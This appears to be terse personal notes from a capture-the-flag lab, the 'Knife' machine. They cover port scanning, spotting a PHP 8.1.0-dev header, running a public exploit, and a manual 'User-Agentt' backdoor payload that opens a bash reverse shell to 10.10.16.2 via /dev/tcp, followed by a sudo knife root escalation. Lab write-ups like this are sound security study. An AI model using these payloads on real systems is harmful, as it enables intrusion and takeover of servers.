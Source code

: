 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Knife
# 16/3/2023
10.10.10.242

----------------------------------------------------
# nmap
----------------------------------------------------
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

intercept http with burp and investicate odd header in response
X-Powered-By: PHP/8.1.0-dev

----------------------------------------------------
# exploitation
----------------------------------------------------
└─$ searchsploit PHP 8.1.0-dev
└─$ searchsploit -m 49933.py  
we got a shell


its not stable I am doing mannually

User-Agentt : zerodiumsystem('bash -c " bash -i >& /dev/tcp/10.10.16.2/6969 0>&1 "');

----------------------------------------------------
# priv esc
----------------------------------------------------
james@knife:~$ sudo -l
    (root) NOPASSWD: /usr/bin/knife
sudo knife exec -E 'exec "/bin/bash"'


